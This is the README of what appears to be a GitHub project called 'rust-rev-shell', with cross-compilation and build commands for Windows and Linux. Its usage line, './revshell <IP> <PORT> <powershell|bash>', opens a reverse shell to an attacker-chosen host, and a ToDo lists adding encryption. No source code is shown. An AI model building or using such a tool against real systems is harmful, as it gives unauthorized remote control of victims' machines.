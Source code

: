 # rust-rev-shell

# Installation
- Pour ajouter le compilateur Windows depuis Linux :


    rustup target add x86_64-pc-windows-gnu && cargo install cross


Pour ajouter le compilateur Linux depuis Windows :
```rustup target add x86_64-unknown-linux-gnu && cargo install cross```

# Compilation
- Linux for Linux :
``` cargo build ```
- Windows for Windows:
``` cargo build ```
- Linux for Windows :
```cross build --target x86_64-pc-windows-gnu --release```
- Windows for Linux
```cargo build --target x86_64-unknown-linux-gnu --release```

# Usage
``` ./revshell <IP> <PORT> <powershell|bash> ```

# ToDo
- Add Linux support
- Split function in multiple files
- Encryption
